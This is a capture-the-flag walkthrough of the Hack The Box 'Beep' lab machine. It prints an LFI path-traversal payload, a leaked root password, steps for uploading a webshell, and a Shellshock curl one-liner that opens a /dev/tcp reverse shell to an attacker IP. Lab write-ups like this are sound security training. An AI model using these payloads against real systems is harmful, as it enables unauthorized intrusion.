 ```yaml
---
title: Beep
date: 2023-02-18 09:45:47 +07:00
modified: 2023-02-18 09:45:47 +07:00
tags: [Shellshock, Beep, LFI, RCE, Hackthebox, Writeup]
description: Beep has a very large list of running services, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access.
image: https://photos.squarezero.dev/file/abir-images/Beep/logo.png
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Beep/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Beep</font>

​		14<sup>th</sup> March 2017

​		Machine Author(s): [ch4p](https://app.hackthebox.com/users/1)



<br>
### Description:

Beep has a very large list of running services, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access.

### Difficulty:

`Medium`


# Fixes
Due to this machine's age and the outdated TLS version, issues emerge.
Before we move on, let's solve a couple of them.

### Firefox

![](https://photos.squarezero.dev/file/abir-images/Beep/21.png)

### Curl & gobuster 
-k, --insecure           Allow insecure server connections




# Enumeration

I begin as usual with a Nmap scan.

`nmap -sC -sV -A -oG beep beep.htb`

![](https://photos.squarezero.dev/file/abir-images/Beep/1.png)

Multiple ports are open. 

|Ports|Service
|22| ssh OpenSSH 4.3 (protocol 2.0)
|25| smtp
|80| Apache httpd 2.2.3
|110| pop3
|111| rpcbind
|143| imap
|443| Apache httpd 2.2.3
|3306| mysql
|10000| http MiniServ 1.570 (Webmin httpd)

Next, I used [Gobuster]() to find interesting directories.

`gobuster dir -u https://beep.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k`

![](https://photos.squarezero.dev/file/abir-images/Beep/2.png)


# Foothold + Privesc

## **Method 1 → LFI**

After visiting the website I have found a login page that use [Elastix]().

![](https://photos.squarezero.dev/file/abir-images/Beep/3.png)

I looked for possible exploits and found an LFI vulnerability. 

![](https://photos.squarezero.dev/file/abir-images/Beep/4.png)

You can find the full explanation in [ExploitDB](https://www.exploit-db.com/exploits/37637)

Payload →
`/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

After using the payload I found passwords for other portals.

![](https://photos.squarezero.dev/file/abir-images/Beep/5.png)

Next I tried to use ssh with following credential to get access.

`root:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/6.png)

## **Method 2 → Remote Code Execution **

When visiting `/admin` , It asks for password. If cancel is pressed it took me to [FreePBX]() page. 

![](https://photos.squarezero.dev/file/abir-images/Beep/7.png)

After logging in we get admin dashboard access.

`admin:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/8.png)

After researching for a little bit I found this vulnerability in [ExploitDB](https://www.exploit-db.com/exploits/18650)

In order for the exploit to work it requires a valid extension.

We can use [svmap]() to find SIP devices in the network and [svwar]() to bruteforce for valid extension.

We can use `INVITE` option to reveal all valid extensions.

![](https://photos.squarezero.dev/file/abir-images/Beep/9.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/10.png)

Afternatively I found the extension in the recordings dashboard as well.

![](https://photos.squarezero.dev/file/abir-images/Beep/11.png)

After finding the extension I found a shell in the system.

![](https://photos.squarezero.dev/file/abir-images/Beep/12.png)

## **Method 3 → FileUpload Code Execution**

In port 10000 I found [Webmin]() login page. I logged in with valid credentials and found the admin dashboard.

`root:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/13.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/14.png)

There was already a commandshell option in the site. 

![](https://photos.squarezero.dev/file/abir-images/Beep/15.png)

There was also a file upload option in the website.

![](https://photos.squarezero.dev/file/abir-images/Beep/22.png)

I uploaded a webshell and after visiting the directory I can execute commands.

![](https://photos.squarezero.dev/file/abir-images/Beep/16.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/17.png)

Then I got a revershell using the webshell I spawned. 

![](https://photos.squarezero.dev/file/abir-images/Beep/18.png)

## **Method 4 → ShellShock**

While exploring the website I found ![cgi-bin]](). 
This reminded me of [ShellShock]() vulnerability.

![](https://photos.squarezero.dev/file/abir-images/Beep/19.png)

I got a revershell using the vulnerability.

`curl -ks -A "() { :;}; echo Content-Type: text/html; /bin/bash -i >& /dev/tcp/10.10.14.21/9999 0>&1;" https://beep.htb:10000`

![](https://photos.squarezero.dev/file/abir-images/Beep/20.png)

